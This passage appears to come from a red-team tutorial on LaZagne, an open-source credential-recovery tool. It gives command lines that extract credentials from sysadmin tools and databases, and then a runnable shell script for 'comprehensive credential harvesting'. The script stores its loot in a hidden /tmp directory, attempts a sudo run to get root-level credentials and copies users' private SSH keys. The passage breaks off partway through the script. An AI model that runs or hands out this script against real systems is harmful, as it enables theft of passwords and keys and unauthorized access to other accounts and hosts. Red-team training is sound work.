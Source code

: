 ```bash
# Extract credentials from sysadmin tools
python3 laZagne.py sysadmin

# Target specific tools
python3 laZagne.py sysadmin -filezilla -env
```

#### 3. Databases

```bash
# Extract database credentials
python3 laZagne.py databases

# Target specific database systems
python3 laZagne.py databases -mysql -postgresql
```

#### 4. Customizing Output

```bash
# Write results to a file in different formats
python3 laZagne.py all -oA -output /tmp/
python3 laZagne.py all -oJ -output /path/to/json/output.json
python3 laZagne.py all -oN -output /path/to/txt/output.txt
```

### Example: Comprehensive Credential Harvesting

This example demonstrates a systematic approach to credential harvesting using LaZagne in a red team scenario:

1. **Create a credential harvesting script**:

```bash
cat > harvest_creds.sh << 'EOF'
#!/bin/bash

# Create output directory
OUTPUT_DIR="/tmp/.harvested_$(date +%Y%m%d%H%M%S)"
mkdir -p $OUTPUT_DIR

echo "[+] Starting credential harvesting..."

# System information
echo "[*] Gathering system information..."
hostname > $OUTPUT_DIR/system_info.txt
whoami >> $OUTPUT_DIR/system_info.txt
ip addr show | grep -E "inet " >> $OUTPUT_DIR/system_info.txt

# Run LaZagne with different privilege levels
echo "[*] Running LaZagne with current privileges..."
python3 /path/to/LaZagne/laZagne.py all -oJ -output $OUTPUT_DIR/lazagne_user.json 2>/dev/null

# Attempt privilege escalation if not root
if [ $(id -u) -ne 0 ]; then
    echo "[*] Attempting to run with elevated privileges..."
    echo "Credential harvesting in progress..." | sudo -S python3 /path/to/LaZagne/laZagne.py all -oJ -output $OUTPUT_DIR/lazagne_root.json 2>/dev/null
fi

# Extract SSH keys
echo "[*] Gathering SSH keys..."
mkdir -p $OUTPUT_DIR/ssh_keys
find /home -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" -exec cp {} $OUTPUT_DIR/ssh_keys/ \; 2>/dev/null

```